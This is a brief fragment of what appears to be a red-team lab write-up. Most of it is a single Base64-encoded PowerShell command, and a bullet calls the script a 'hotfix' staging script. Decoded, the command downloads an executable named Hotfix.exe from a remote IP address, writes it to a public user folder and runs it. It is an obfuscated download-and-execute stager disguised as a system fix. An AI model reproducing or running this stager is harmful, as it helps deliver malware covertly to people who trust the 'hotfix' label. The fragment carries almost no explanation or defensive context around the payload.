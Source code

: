 <img src="/posts/2024-06-11_red_team06/images/cyberchef.png" width=1000px;>

```powershell
powershell -enc "dwBnAGUAdAAgAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADcANQAuADEAMgA4AC8AMgA0ADoAOQAwADAAMQAvAEgAbwB0AGYAaQB4AC4AZQB4AGUAIAAtAE8AdQB0AEYAaQBsAGUAIABcAFUAcwBlAHIAcwBcAFAAdQBiAGwAaQBjAFwASABvAHQAZgBpAHgALgBlAHgAZQA7AFMAdABhAHIAdAAtAFMAbABlAGUAcAAgAC0AUwBlAGMAbwBuAGQAcwAgADUAOwBcAFUAcwBlAHIAcwBcAFAAdQBiAGwAaQBjAFwASABvAHQAZgBpAHgALgBlAHgAZQA="
```

- Add the `hotfix.ps1` staging script

